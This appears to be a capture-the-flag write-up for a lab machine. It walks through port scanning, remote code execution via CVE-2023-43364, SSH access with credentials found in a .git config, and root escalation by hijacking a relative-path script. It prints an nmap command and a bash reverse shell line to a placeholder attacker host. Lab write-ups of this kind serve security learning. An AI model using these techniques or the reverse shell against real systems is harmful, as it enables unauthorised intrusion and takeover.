









I start by performing a full port scan against the target machine to identify exposed services and potential attack vectors.
nmap -sV -sC -p- --open 10.10.11.208 -T4 -A -vv -oN scan.txt
After completing the scan, I add the target IP address to the
/etc/hosts file to properly resolve the hostname.
At first glance, the web application appears to be a search engine. This suggests that user input may be directly interacting with a database, making it a potential candidate for a SQL Injection.
I intercept the search request using Burp Suite and notice that the backend processes the request via a PHP script.

At the bottom of the page, I identify the application version, which helps narrow down potential vulnerabilities.

Further investigation reveals that the application generates URLs for multiple search engines based on user input.
This functionality is vulnerable to Remote Code Execution, specifically CVE-2023-43364.
By exploiting the RCE vulnerability, I successfully execute arbitrary commands on the target system and establish a reverse shell.

Once access is gained, I locate the user.txt flag.
With initial access established, I begin system enumeration to identify potential privilege escalation vectors.
I typically start by enumerating the web application directory.
Inside a .git directory, I find a configuration file containing
credentials that allow me to authenticate via SSH.

These credentials also allow me to upgrade my shell to a more stable SSH session.

Running sudo -l reveals that I can execute a specific command
as the root user.

After researching the allowed command, I determine how to exploit it to gain root privileges.

Although I do not have direct permission to modify the existing files, I notice that the script does not use an absolute path.

This allows me to create a malicious script in the current working directory with the same name, causing it to be executed instead. Initially, I encounter errors because the script lacks execution permissions.

After fixing the permissions, I embed a reverse shell payload into the script:
bash -i >& /dev/tcp/<YourIP>/<PORT> 0>&1Executing the script grants me a reverse shell as root, completing the privilege escalation.